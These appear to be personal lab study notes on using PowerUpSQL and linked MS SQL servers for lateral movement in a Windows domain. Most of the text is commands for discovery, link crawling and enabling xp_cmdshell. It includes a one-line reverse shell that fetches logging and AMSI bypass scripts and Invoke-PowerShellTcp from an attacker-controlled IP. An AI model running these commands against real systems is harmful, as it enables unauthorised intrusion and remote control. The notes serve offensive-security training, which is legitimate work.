 MS SQL servers are generally deployed in plenty in a Windows domain

SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```powershell
 . .\PowerUpSQL-master\PowerUpSQL.ps1
```
###### Discovery (SPN Scanning) - find all mssql SPNs (default for mssql servers)
```powershell
Get-SQLInstanceDomain
```

###### Check Accessibility 
```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

###### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

>**Note:** Review `ServiceName`, `AuthenticationMode`, `IsSysadmin` and `ActiveSessions`
#### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

> **Note**: Database links work even across forest trusts. **Forest security boundaries can't even stop it**

[^1]![[Pasted image 20250521200749.png]]
###### Search for Database Links
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201158.png]]


> [!NOTE] **NOTE**
> Connect to host using the `HeidiSQL` client


 Manual
```sql
select * from master..sysservers
```

###### Enumerating Database Links 
Jesus lol
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201531.png]]

Manual - The `Openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Manual - `Openquery()` queries can be chained to access links within links (nested
links)
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

###### Executing Commands

> [!NOTE] **Note**
>  If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled like so:
> ```sql
> EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"

Run commands using crawler
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'cmd /c set username'" -QueryTarget eu-sql
```

Reverseshell
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.48/sbloggingbypass.txt); iex (iwr -UseBasicParsing http://172.16.100.48/amsibypass.txt); iex (iwr http://172.16.100.48/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.48 -Port 443"''' -QueryTarget eu-sql35
```

Manual
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```


